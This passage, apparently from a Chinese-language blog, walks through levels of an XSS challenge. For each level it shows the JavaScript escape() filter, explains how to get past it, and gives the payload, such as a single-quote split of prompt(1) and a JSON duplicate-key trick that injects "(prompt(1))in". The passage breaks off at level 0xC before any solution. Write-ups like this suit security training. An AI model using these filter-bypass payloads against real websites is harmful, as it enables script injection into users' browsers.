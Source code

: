 这关比较简单，就把单引号替换为空，只要在 `prompt(1)` 中间加个单引号就行了。

payload:

```
pro'mpt(1)
```

------

### 0xB

```js
function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

    // directly "parse" data in script context
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}
```

小 trick ，利用字母操作符构造 `(prompt(1)) in "."` ，虽然会报错，但是仍可以弹窗。

![](https://gitee.com/R1ta_Violet/blogimg/raw/master/imgs/image-20210817171942102.png)

由于 js 定义对象时同一属性名的会先取后面的，所以可以利用这个 trick 实现 XSS。

![](https://gitee.com/R1ta_Violet/blogimg/raw/master/imgs/image-20210817172250539.png)

payload：

```
"(prompt(1))in"
```

------

### 0xC

```js
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}
```
